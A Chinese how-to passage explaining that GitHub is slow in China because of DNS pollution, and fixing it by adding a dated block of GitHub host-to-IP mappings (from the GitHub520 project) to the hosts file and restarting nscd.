解决方案：

（1）国内网络访问 Github 速度过慢的原因有许多，但其中最直接和原因是其 CND [域名](https://dnspod.cloud.tencent.com/?from_column=20065&from=20065)遭到 DNS 污染，导致我们无法连接使用 GitHub 的加速服务，因此访问速度缓慢。简单理解：CDN「Content Delivery Network」，即[内容分发网络](https://cloud.tencent.com/product/cdn?from_column=20065&from=20065)，依靠部署在各地的边缘[服务器](https://cloud.tencent.com/product/cvm/?from_column=20065&from=20065)，平衡中心服务器的负荷，就近提供用户所需内容，提高响应速度和命中率。DNS 污染，是指一些刻意或无意制造出来的数据包，把域名指向不正确的 IP 地址，阻碍了网络访问。我们默认从目标网址的最近 CDN 节点获取内容，但当节点过远或 DNS 指向错误时，就会造成访问速度过慢或无法访问的问题

（2）修改方法，把下方的内容复制到文本末尾（需要管理员权限修改）：

```
# GitHub520 Host Start
140.82.113.4                  alive.github.com
140.82.113.4                  live.github.com
35.89.211.130                 github.githubassets.com
140.82.113.4                  central.github.com
35.91.205.163                 desktop.githubusercontent.com
140.82.113.4                  assets-cdn.github.com
54.187.119.73                 camo.githubusercontent.com
151.101.1.6                   github.map.fastly.net
151.101.1.6                   github.global.ssl.fastly.net
140.82.113.4                  gist.github.com
185.199.108.153               github.io
140.82.113.4                  github.com
192.0.66.2                    github.blog
140.82.113.4                  api.github.com
54.187.192.31                 raw.githubusercontent.com
18.237.195.231                user-images.githubusercontent.com
52.25.220.42                  favicons.githubusercontent.com
35.90.114.155                 avatars5.githubusercontent.com
35.91.205.163                 avatars4.githubusercontent.com
54.187.119.73                 avatars3.githubusercontent.com
34.217.211.252                avatars2.githubusercontent.com
54.68.45.78                   avatars1.githubusercontent.com
35.90.114.155                 avatars0.githubusercontent.com
52.25.220.42                  avatars.githubusercontent.com
140.82.113.4                  codeload.github.com
72.21.206.80                  github-cloud.s3.amazonaws.com
72.21.206.80                  github-com.s3.amazonaws.com
72.21.206.80                  github-production-release-asset-2e65be.s3.amazonaws.com
72.21.206.80                  github-production-user-asset-6210df.s3.amazonaws.com
72.21.206.80                  github-production-repository-file-5c1aeb.s3.amazonaws.com
185.199.108.153               githubstatus.com
140.82.114.18                 github.community
52.224.38.193                 github.dev
140.82.113.4                  collector.github.com
54.202.167.66                 pipelines.actions.githubusercontent.com
35.92.254.178                 media.githubusercontent.com
54.214.143.191                cloud.githubusercontent.com
54.214.169.83                 objects.githubusercontent.com
13.107.219.40                 vscode.dev


# Update time: 2022-10-09T14:09:11+08:00
# Update url: https://raw.hellogithub.com/hosts
# Star me: https://github.com/521xueweihan/GitHub520
# GitHub520 Host End
```

（3）刷新 DNS（大部分情况下是直接生效，未生效则尝试本办法）

Linux 命令：`sudo /etc/init.d/nscd restart`，如报错则须安装：`sudo apt install nscd` 

**解决成功：**



---

### 参考文献

[IPTABLES INPUT 和 PREROUTING 的区别 - allsunday](https://blog.allsunday.io/posts/2014-05-27-iptables-input和prerouting的区别/)

[上手指南 | 雷池 SafeLine](https://docs.waf-ce.chaitin.cn/zh/上手指南)